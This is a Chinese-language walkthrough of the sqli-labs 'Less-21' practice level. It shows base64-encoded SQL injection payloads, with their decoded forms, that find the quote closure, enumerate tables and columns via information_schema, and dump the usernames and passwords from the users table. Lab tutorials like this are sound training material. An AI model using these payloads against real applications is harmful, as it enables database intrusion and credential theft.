 ```yaml
---
title: Less - 21
date: 2023-03-15T13:45:09Z
lastmod: 2023-03-15T14:00:28Z
---
```


# Less - 21

---

# 通关教程

---

## 1、判断闭合方式

---

输入的内容会进行base64编码，所以这一关的注入内容都需要进行base64编码

```html
admin'  # base编码：YWRtaW4n
```

​![image](assets/image-20230315135159-symc6nv.png)​

```html
admin')# 
```

​![image](assets/image-20230315135438-wi9r2ln.png)​

---

## 2、查看当前数据库

---

```html
JykgdW5pb24gc2VsZWN0IDEsMixkYXRhYmFzZSgpIw== #') union select 1,2,database()#
```

​![image](assets/image-20230315135709-1cowejl.png)​

---

## 3、查看security库下的所有表

---

```html
JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgd2hlcmUgdGFibGVfc2NoZW1hPSdzZWN1cml0eScpIw
```

​![image](assets/image-20230315135819-6ie10ir.png)​

---

## 4、查看users表下的所有字段

---

```html
JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSd1c2VycycpIw== #') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')#
```

​![image](assets/image-20230315135911-5gtxde0.png)​

---

## 5、查看username,password字段的所有的值

---

```html
JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSxwYXNzd29yZCkgZnJvbSBzZWN1cml0eS51c2Vycykj #') union select 1,2,(select group_concat(username,password) from security.users)#
```

​![image](assets/image-20230315140006-2chsrpl.png)​
